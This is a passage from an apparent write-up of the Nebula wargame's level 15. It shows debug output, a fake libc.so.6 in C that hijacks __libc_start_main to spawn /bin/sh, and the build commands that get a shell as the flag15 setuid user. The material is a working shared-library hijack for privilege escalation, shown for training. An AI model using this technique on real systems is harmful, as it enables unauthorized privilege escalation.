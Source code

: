 ```shell
      3207:
      3207:     relocation processing: /var/tmp/flag15/libc.so.6 (lazy)
      3207:     symbol=__cxa_finalize;  lookup in file=/home/level15/flag15 [0]
      3207:     symbol=__cxa_finalize;  lookup in file=/var/tmp/flag15/libc.so.6 [0]
      3207:     /var/tmp/flag15/libc.so.6: error: relocation error: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference (fatal)
/home/level15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

We see that we are missing the `__cxa_finalize` symbol as well as the
`GLIBC_2.0` version in our fake `libc.so.6` shared object.

```c
int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    system("/bin/sh");
}

void __cxa_finalize(void * d) {
    return;
}
```

We also create a version script containing the following:

```text
GLIBC_2.0 {};
```

We attempt to compile and use it:

```shell
level15@nebula:~$ gcc -o /var/tmp/flag15/libc.so.6 -shared -fPIC -Wl,--version-script=/home/level15/version /home/level15/fake.c
level15@nebula:~$ /home/flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```

We see that the `system` symbol is not linked. We can get around this by
compiling it statically into our `libc.so.6` shared object.

```shell
level15@nebula:~$ gcc -o /var/tmp/flag15/libc.so.6 -static-libgcc -shared -fPIC -Wl,--version-script=/home/level15/version,-Bstatic /home/level15/fake.c
level15@nebula:~$ /home/flag15/flag15
sh-4.2$ whoami
flag15
sh-4.2$ id
uid=1016(level15) gid=1016(level15) euid=984(flag15) groups=984(flag15),1016(level15)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

# level 16


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md